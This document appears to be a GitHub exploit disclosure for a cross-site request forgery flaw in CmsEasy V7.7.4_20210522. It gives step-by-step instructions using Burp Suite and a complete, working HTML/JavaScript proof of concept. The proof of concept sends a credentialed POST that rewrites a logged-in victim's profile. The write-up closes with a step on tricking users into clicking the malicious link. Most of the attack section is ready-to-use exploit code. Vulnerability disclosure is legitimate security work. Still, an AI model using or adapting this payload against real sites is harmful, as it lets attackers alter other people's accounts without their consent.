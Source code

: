 ## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Cross-site request forgery(CSRF)
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:There is a CSRF vulnerability in CmsEasy.V7.7.4_20210522, where attackers can construct a malicious link to induce any user to click and change their personal information
```

## How to Exploit

Step 1：Edit personal information after logging into the system

![edit](img/edit.png)

Step 2:Then edit the user information, submit it, and capture the package with burpsuite

![change](img/change.png)

Step 3：use burpsuit to generate CSRF POC

![csrf](img/csrf.png)

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/192.168.174.1\/index.php?case=user&act=edit&table=user&site=default&dfile=&userid=2", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------26756953524144081873372244344");
        xhr.withCredentials = true;
        var body = "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"username\"\r\n" + 
          "\r\n" + 
          "test1\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"headimage\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"file_headimage\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"nickname\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"question\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"answer\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"qq\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"e_mail\"\r\n" + 
          "\r\n" + 
          "Al1ex@163.com\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"tel\"\r\n" + 
          "\r\n" + 
          "17792936458\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"address\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"intro\"\r\n" + 
          "\r\n" + 
          "222\r\n" + 
          "-----------------------------26756953524144081873372244344\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "\xe6\x8f\x90\xe4\xba\xa4\r\n" + 
          "-----------------------------26756953524144081873372244344--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

Step 4:Drop the packet, and then refresh the user's personal page to ensure that the information has not changed

![drop](img/drop.png)

Step 5：Cheat users to visit and click malicious links

![exploit](img/exploit.png)

Step 6：Refresh the user's personal page again and find that the information has changed

![successful](img/successful.png)

## Reference

https://www.cmseasy.cn/



